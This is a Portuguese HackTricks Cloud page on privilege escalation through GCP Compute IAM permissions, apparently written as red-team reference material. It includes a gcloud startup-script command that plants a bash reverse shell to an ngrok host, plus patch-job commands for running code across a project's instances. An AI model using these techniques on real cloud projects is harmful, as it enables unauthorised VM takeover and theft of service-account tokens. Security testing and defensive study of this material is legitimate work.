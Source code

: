 # GCP - Escalação de Privilégios de Computação

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>

## Computação

Para obter mais informações sobre Computação e VPC (rede) no GCP, verifique:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Observe que para realizar todos os ataques de escalonamento de privilégios que exigem modificar os metadados da instância (como adicionar novos usuários e chaves SSH) é **necessário ter permissões `actAs` sobre o SA anexado à instância**, mesmo que o SA já esteja anexado!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Com essa permissão, você pode **modificar** as informações de **metadados** de uma **instância** e alterar as **chaves autorizadas de um usuário**, ou **criar** um **novo usuário com permissões de sudo**. Portanto, você poderá executar via SSH em qualquer instância de VM e roubar a Conta de Serviço do GCP com a qual a Instância está sendo executada.\
Limitações:

* Observe que as Contas de Serviço do GCP em execução em instâncias de VM por padrão têm um **escopo muito limitado**
* Você precisará ser **capaz de entrar em contato com o servidor SSH** para fazer login

Para obter mais informações sobre como explorar essa permissão, verifique:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Você também poderia realizar esse ataque adicionando um novo script de inicialização e reiniciando a instância:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Esta permissão concede os **mesmos privilégios que a permissão anterior**, mas apenas sobre instâncias específicas em vez de um projeto inteiro. As **mesmas vulnerabilidades e limitações da seção anterior se aplicam**.

### `compute.instances.setIamPolicy`

Esse tipo de permissão permitirá que você **conceda a si mesmo uma função com as permissões anteriores** e escalone privilégios abusando delas.

### **`compute.instances.osLogin`**

Se o **OSLogin estiver habilitado na instância**, com essa permissão você pode simplesmente executar **`gcloud compute ssh [INSTÂNCIA]`** e se conectar à instância. Você **não terá privilégios de root** dentro da instância.

{% hint style="success" %}
Para fazer login com sucesso com essa permissão dentro da instância VM, você precisa ter a permissão `iam.serviceAccounts.actAs` sobre a SA anexada à VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Se o **OSLogin estiver habilitado na instância**, com essa permissão você pode simplesmente executar **`gcloud compute ssh [INSTÂNCIA]`** e se conectar à instância. Você terá **privilégios de root** dentro da instância.

{% hint style="success" %}
Para fazer login com sucesso com essa permissão dentro da instância VM, você precisa ter a permissão `iam.serviceAccounts.actAs` sobre a SA anexada à VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

É possível **criar uma máquina virtual com uma Conta de Serviço atribuída e roubar o token** da conta de serviço acessando os metadados para escalar privilégios para ela.

O script de exploração para este método pode ser encontrado [aqui](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Se você tiver as permissões **`osconfig.patchDeployments.create`** ou **`osconfig.patchJobs.exec`**, você pode criar um [**trabalho de patch ou implantação**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Isso permitirá que você se mova lateralmente no ambiente e execute código em todas as instâncias de computação dentro de um projeto.

Se você deseja explorar manualmente isso, precisará criar um [trabalho de patch](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) ou [implantação](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json) para um trabalho de patch execute:

`gcloud compute os-config patch-jobs execute --file=patch.json`

Para implantar uma implantação de patch:

`gcloud compute os-config patch-deployments create my-update --file=patch.json`

Ferramentas automatizadas como [patchy](https://github.com/rek7/patchy) existem para detectar permissões frouxas e se mover lateralmente automaticamente.

**Você também pode abusar disso para persistência.**

### `compute.machineImages.setIamPolicy`

**Conceda a si mesmo permissões extras** para Imagem de Computação.

### `compute.snapshots.setIamPolicy`

**Conceda a si mesmo permissões extras** para um snapshot de disco.

### `compute.disks.setIamPolicy`

**Conceda a si mesmo permissões extras** para um disco.

### Bypass de Escopos de Acesso

Seguindo este link você encontra algumas [**ideias para tentar burlar os escopos de acesso**](../).

### Escalação de Privilégios Local na Instância de Computação GCP

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Referências

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)
